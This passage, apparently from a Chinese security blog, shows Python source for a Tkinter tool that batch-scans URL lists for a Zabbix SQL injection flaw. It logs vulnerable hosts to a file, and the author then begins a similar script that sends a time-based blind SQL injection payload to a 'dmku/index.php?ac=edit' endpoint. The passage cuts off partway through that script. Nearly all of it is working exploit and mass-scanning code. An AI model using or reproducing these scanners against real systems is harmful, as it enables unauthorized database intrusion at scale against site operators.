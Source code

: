 ```
            if res.status_code == 200:
                for i in range(len(status_str)):
                    if status_str[i] in res.text:
                        zabbix_sql.insert(END,&#34;【*】存在漏洞的url：&#34; + url + &#34;\n&#34;)
                        zabbix_sql.see(END)
                        with open(&#34;存在Zabbix—SQL注入漏洞的url.txt&#34;, 'a') as f:
                            f.write(url + &#34;\n&#34;)
            else:
                target_url = url + '/zabbix/' + poc
                res= requests.get(url=target_url,verify=False)
                for i in range(len(status_str)):
                    if status_str[i] in res.text:
                        zabbix_sql.insert(END, &#34;【*】存在漏洞的url：&#34; + url + &#34;\n&#34;)
                        zabbix_sql.see(END)
                        with open(&#34;存在Zabbix—SQL注入漏洞的url.txt&#34;, 'a') as f:
                            f.write(url + &#34;\n&#34;)
        else:
            zabbix_sql.insert(END, &#34;【×】不存在漏洞的url：&#34; + url + &#34;\n&#34;)
            zabbix_sql.see(END)
    except Exception as err:
        zabbix_sql.insert(END, &#34;【×】目标请求失败，报错内容：&#34; + str(err) + &#34;\n&#34;)
        zabbix_sql.see(END)
def get_zabbix_addr():
    with open(&#34;url.txt&#34;,&#34;r&#34;) as f:
        for address in f.readlines():
            address = address.strip()
            yield address
def zabbix_sql_gui():
    zabbix_sql_poc = tk.Tk()
    zabbix_sql_poc.geometry(&#34;910x450&#34;)
    zabbix_sql_poc.title(&#34;Zabbix—SQL注入 漏洞一把梭&#34;)
    zabbix_sql_poc.resizable(0, 0)
    zabbix_sql_poc.iconbitmap('logo.ico')
    global zabbix_sql
    zabbix_sql= scrolledtext.ScrolledText(zabbix_sql_poc,width=123, height=25)
    zabbix_sql.grid(row=0, column=0, padx=10, pady=10)
    zabbix_sql.see(END)
    addrs = get_zabbix_addr()
    max_thread_num = 30
    executor = ThreadPoolExecutor(max_workers=max_thread_num)
    for addr in addrs:
        future = executor.submit(zabbix_sql_exp, addr)
    zabbix_sql_poc.mainloop()
```

  
大概的架构就是访问地址，发送 paylaod，然后对应利用成功和失败的特征进行鉴定，然后就是最后的 gui 模块  
  
因此我们可以对应的写出一个脚本，我按照我的漏洞写出的脚本如下  

```
import requests
import time
import tkinter as tk
from tkinter import scrolledtext
from concurrent.futures import ThreadPoolExecutor
from ttkbootstrap.constants import *


# 执行SQL注入检测的函数
def sql_injection_exp(url):
    target = url + &#34;/js/player/dmplayer/dmku/index.php?ac=edit&#34;
    data = {
        &#34;cid&#34;: &#34;(select(1)from(select(sleep(6)))x)&#34;,
        &#34;text&#34;: &#34;1&#34;,
```